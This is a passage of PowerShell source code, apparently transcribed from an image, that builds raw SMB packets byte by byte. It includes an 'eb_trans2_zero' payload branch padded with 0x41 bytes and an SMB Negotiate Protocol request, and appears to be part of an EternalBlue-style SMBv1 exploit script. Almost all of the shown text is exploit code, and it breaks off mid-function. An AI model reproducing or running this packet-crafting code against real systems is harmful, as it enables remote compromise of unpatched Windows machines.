       $pkt += 0x60,0x00,0x04,0x10
      $pkt += [Byte[]] (0x00) * 4

      $pkt += 0x80,0xef,0xdf,0xff

      $pkt += [Byte[]] (0x00) * 4
      $pkt += 0x10,0x00,0xd0,0xff,0xff,0xff,0xff,0xff
      $pkt += 0x18,0x01,0xd0,0xff,0xff,0xff,0xff,0xff
      $pkt += [Byte[]] (0x00) * 0x10

      $pkt += 0x60,0x00,0x04,0x10
      $pkt += [Byte[]] (0x00) * 0xc
      $pkt += 0x90,0xff,0xcf,0xff,0xff,0xff,0xff,0xff
      $pkt += [Byte[]] (0x00) * 0x8
      $pkt += 0x80,0x10
      $pkt += [Byte[]] (0x00) * 0xe
      $pkt += 0x39
      $pkt += 0xbb

      $pkt += [Byte[]] (0x41) * 965

      return $pkt
    }

    if($type -eq "eb_trans2_zero") {
      $pkt += [Byte[]] (0x00) * 2055
      $pkt += 0x83,0xf3
      $pkt += [Byte[]] (0x41) * 2039
      #$pkt += 0x00 * 4096
     }
    else {
      $pkt += [Byte[]] (0x41) * 4096
    }

    return $pkt
  }
function negotiate_proto_request()
{

      [Byte[]]  $pkt = [Byte[]] (0x00)             # Message_Type
      $pkt += 0x00,0x00,0x54       # Length

      $pkt += 0xFF,0x53,0x4D,0x42 # server_component: .SMB
      $pkt += 0x72             # smb_command: Negotiate Protocol
      $pkt += 0x00,0x00,0x00,0x00 # nt_status
      $pkt += 0x18             # flags
      $pkt +=  0x01,0x28         # flags2
      $pkt += 0x00,0x00         # process_id_high
      $pkt += 0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00 # signature
      $pkt += 0x00,0x00         # reserved
      $pkt += 0x00,0x00         # tree_id
      $pkt += 0x2F,0x4B         # process_id
      $pkt += 0x00,0x00         # user_id
      $pkt += 0xC5,0x5E           # multiplex_id

      $pkt += 0x00             # word_count
      $pkt += 0x31,0x00         # byte_count
